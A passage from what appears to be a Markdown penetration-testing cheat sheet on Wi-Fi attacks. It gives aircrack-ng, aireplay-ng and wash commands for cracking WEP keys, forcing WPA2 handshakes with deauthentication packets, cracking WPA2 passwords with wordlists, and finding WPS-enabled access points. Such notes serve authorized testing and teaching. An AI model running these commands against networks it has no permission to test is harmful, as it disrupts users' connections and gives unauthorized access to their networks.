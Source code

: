 -> Monitor and capture packets that have the IV's of clients connected to the chosen Wi-Fi network
```bash
airodump-ng wlan0 --essid <ssid> --channel <channel> -w wepbrute
```

-> Cracking the 128-bit key with wordlist
```bash
aircrack-ng -a 1 -n 128 -w /usr/share/wordlists/rockyou.txt wepbrute-01.cap
```

### WPA2-Personal Attack
-> Monitor Wi-Fi networks, get the SSID and channel of the chosen network
```bash
airodump-ng wlan0
```

-> Monitor clients connected to the chosen Wi-Fi network
```bash
airodump-ng wlan0 --essid <essid> --channel 6 -w wpa
```

-> Capture the handshake by forcing a client to connect to the access point again, for this it is necessary to send deauth packets to disassociate all clients via broadcast or for a specific client and it will connect automatically
```bash
aireplay-ng wlan0 -0 10 -a <bssid>
```

-> Wi-Fi password crack
```bash
aircrack-ng -a 2 -b <bssid> -w wordlist.txt wpa-01.cap
```

#### Other
-> If you want to decrypt a package file using a WPA password, use airdecap
```bash
airdecap-ng -p <password> example.cap -e <ssid>
```

#### WPS Attack
WPS (Wi-Fi Protected Setup) is a simplified Wi-Fi network configuration method designed to make it easier for devices to connect to the network without having to type in a long password. It uses an 8-digit PIN or a physical button to authenticate and transmit the Wi-Fi network name and password.

Some routers support WPS for a short period of time after activation, and then automatically disable it after the period ends. However, the 8-digit PIN has significant vulnerabilities, as the combination can be cracked by relatively quick brute-force attacks. While WPS was designed to make setup easier, exploiting these weaknesses makes the protocol vulnerable, and it has already been discontinued in many devices due to these security flaws.

-> Identify access points on the network that have WPS active
```bash
airodump-ng wlan0 --wps
```

-> Check if any blocking of the WPS mechanism has occurred, if so, you need to restart the access point to return the attack
```bash
wash -i wlan0
```
